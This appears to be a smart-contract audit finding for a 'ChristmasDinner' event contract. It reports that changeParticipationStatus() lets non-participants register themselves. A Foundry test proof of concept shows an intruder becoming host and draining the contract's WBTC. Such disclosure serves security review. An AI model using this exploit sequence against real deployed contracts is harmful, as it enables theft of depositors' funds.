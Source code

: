 **Description:**

The `changeParticipationStatus()` is meant to be called by a participant who wants to pull out of an event, but does not care about a refund. But when it is called by a non-participant, it makes them a participant.

**Impact:**

A non-participant becomes a participant, and if they are made `host` - they can steal all the funds.

**PoC:**

Add the following test to the `ChristmasDinnerTest.t.sol` test contract:

```solidity
    function test_intruder_becomes_host_and_steal_funds() public {
        address cda = address(cd);
        // ensure there are funds in the contract
        wbtc.mint(cda, 100e18);

        // Two thieves who want to steal some christmas dinner
        address bonnie = makeAddr("bonnie");
        address clyde = makeAddr("clyde");

        // bonnie deposits into the contract and becomes a participant
        wbtc.mint(bonnie, 1e18);
        vm.startPrank(bonnie);
        wbtc.approve(cda, 1e18);
        cd.deposit(address(wbtc), 1e18);
        vm.stopPrank();
        assert(cd.getParticipationStatus(bonnie) == true);
        assert(wbtc.balanceOf(cda) == 101e18);

        // bonnie somehow convinces current host to make them host
        vm.prank(deployer);
        cd.changeHost(bonnie);
        assert(cd.getHost() == bonnie);

        // clyde becomes a participant by calling changeParticipationStatus()
        vm.prank(clyde);
        cd.changeParticipationStatus();
        assert(cd.getParticipationStatus(clyde) == true);

        // bonnie makes clyde host
        vm.prank(bonnie);
        cd.changeHost(clyde);
        assert(cd.getHost() == clyde);

        // clyde withdraws all funds
        vm.prank(clyde);
        cd.withdraw();
        assert(wbtc.balanceOf(cda) == 0);
        assert(wbtc.balanceOf(clyde) == 101e18);
    }
```
